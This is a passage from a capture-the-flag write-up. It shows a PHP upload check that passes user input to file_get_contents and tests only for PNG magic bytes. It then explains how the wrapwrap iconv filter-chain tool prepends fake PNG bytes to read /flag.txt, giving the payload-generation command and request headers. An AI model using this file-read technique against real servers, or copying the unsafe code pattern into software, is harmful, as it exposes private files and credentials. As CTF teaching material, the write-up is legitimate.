 So now it is just "easy" for reading the flag.

````php
if(!empty($_POST['img']))
{
    $name=$_POST['img'];
    $content=file_get_contents($name);
    if(bin2hex(substr($content,1,3))==="504e47") // PNG magic bytes
    {
        echo "<img src=data:base64,".base64_encode($content);
    }
    else
    {
        echo "Not allowed";
    }
}
```
````

So this code checks if file requested by user have PNG magic bytes but it does it by comparing ASCII and doing it from second byte so by using `wrapwrap` it is possible to use PHP iconv chain to prepend data to file and still extract it from disk!

{% embed url="https://github.com/ambionics/wrapwrap/blob/main/wrapwrap.py" %}

generating payload

```
python3 wrapwrap.py /flag.txt '.PNG' ' ' 50
```

The value `50` is just a guess to small may not work bigger return more trash.

### Sending payload and recovering flag

```http
POST /user_photo.php HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://20.55.48.101/dashboard.php
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1
Content-Length: 44568
content-type: application/x-www-form-urlencoded

```